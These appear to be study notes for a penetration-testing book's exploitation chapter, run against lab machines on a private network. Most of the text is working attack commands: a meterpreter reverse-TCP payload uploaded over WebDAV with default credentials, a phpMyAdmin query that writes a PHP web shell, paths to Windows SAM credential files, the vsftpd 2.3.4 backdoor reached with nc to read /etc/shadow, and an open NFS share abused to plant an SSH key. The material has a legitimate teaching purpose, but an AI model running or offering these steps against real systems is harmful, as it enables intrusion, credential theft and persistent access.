 SSL stripping is a technique for MITM, more in the SSLSTRIP cheatsheet.

## Chapter 8 - Exploitation

Exploit the default credentials on webdav by connecting cadaver and using the "put" command

    cat test.txt
    test
    cadaver http://192.168.20.10/webdav
    dav:/webdav/>put test.txt
    
That's fun, but that only uploads a txt file to the server... for real fun, upload a reverse tcp payload:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.66 LPORT=31337 -f raw > meterpreter.php
    dav:/webdav/> put meterpreter.php
    msf > use multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.20.66
    msf exploit(handler) > set LPORT 31337
    msf exploit(handler) > exploit
    **browse to 192.168.20.123/meterpreter.php**
    meterpreter> getuid
    SYSTEM

**payload**
From the phpmyadmin SQL tab, use this query:

    SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php" 

Then, browse to http://target/shell.php?cmd=ipconfig

**loot**

    /WINDOWS/repair/system
    /WINDOWS/repair/sam

**exploit**
vsftpd 2.3.4 had a backdoor opening a root shell on port 6200
    
    ftp 192.168.20.21
    Name: bingo:)
    nc 192.168.20.21 6200
    cat /etc/shadow
    georgia:$1$CNp3mty6$|RWcT0/PVYpDKwyaWWkSg/:15640:0:99999:7:::
    
 
**exploit**
Exploiting an open NFS share for fun and profit

    mkdir /tmp/mount
    mount -t nfs -o nolock 192.168.20.11:/export/georgia /tmp/mount
    cd /tmp/mount/.ssh
    ssh-keygen
    cat ~/.ssh/id_rsa.pub >> /tmp/mount/.ssh/authorized_keys
    ssh georgia@192.168.20.11
    
